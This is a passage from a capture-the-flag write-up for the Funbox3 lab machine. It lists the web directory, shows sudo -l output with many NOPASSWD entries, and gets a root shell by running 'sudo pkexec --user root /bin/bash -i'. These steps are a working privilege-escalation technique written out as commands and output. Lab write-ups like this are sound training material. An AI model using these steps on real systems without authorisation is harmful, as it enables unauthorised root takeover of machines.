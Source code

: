 **Checking html directory:**

I have no idea what the rest of this is for, so many rabbit holes...

```
tony@funbox3:~$ cd /var/www/html
tony@funbox3:/var/www/html$ ls
admin                gym                     logout.php
change-password.php  header.php              profile.php
checklogin.php       hitcounter.txt          registration.php
create-ticket.php    index.html              robots.txt
dashboard.php        index.php               secret
dbconnection.php     jquery-1.2.6.min.js     store
forgot-password.php  jquery.timers-1.0.0.js  view-tickets.php
get-quote.php        leftbar.php
```

#### Priv Esc:

Finding  commands tony can run with elevated privileges:
```
tony@funbox3:/var/www/html$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

**Interesting:**

```
 pkexec - Execute a command as another user
```

Testing it out:

```
tony@funbox3:~$ sudo pkexec --user root /usr/bin/ls /root
root.flag  snap
```

##### Getting root:

```
tony@funbox3:~$ sudo pkexec --user root /bin/bash -i
root@funbox3:~# 
```
